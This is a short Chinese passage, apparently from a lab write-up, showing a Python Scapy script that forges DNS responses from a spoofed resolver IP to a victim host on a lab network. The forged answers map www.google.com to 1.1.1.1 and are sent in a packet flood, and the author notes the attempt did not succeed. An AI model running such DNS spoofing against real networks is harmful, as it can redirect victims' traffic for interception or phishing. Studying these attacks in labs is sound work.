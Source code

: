  依次改变图中的属性值，可以如下编程：

```python
from scapy.all import *
import time
#伪造回应包
#要改变的域名
domain = 'www.google.com'
#受害者主机IP
target_server = '192.168.153.128'
#DNS服务器IP
iplist = '192.168.153.2'
#编号为0~499 每次发送500个包
ID = []
for i in range(500): 
    ID.append(i)
#构造数据包
fake_p = IP(dst=target_server,src=iplist)/\
         UDP(sport=53, dport=33333)/\
         DNS(id=ID,qr=1,ra=1,
          qd=DNSQR(qname=domain,  qtype="A", qclass=1),
          an=DNSRR(rrname=domain,ttl = 7200,rdata="1.1.1.1")
          )
#fake_p.show()
for i in range(100000000):
    send(fake_p)
    time.sleep(0.1)
```

但是结果不尽如人意，受害者主机能够正常解析google.com域名地址。

仅仅做到了wireshark可以抓到大量攻击者发送的DNS数据包。

![image-20220307091720422](https://gitee.com/Hijack8/tc/raw/master/img2/image-20220307091720422.png)

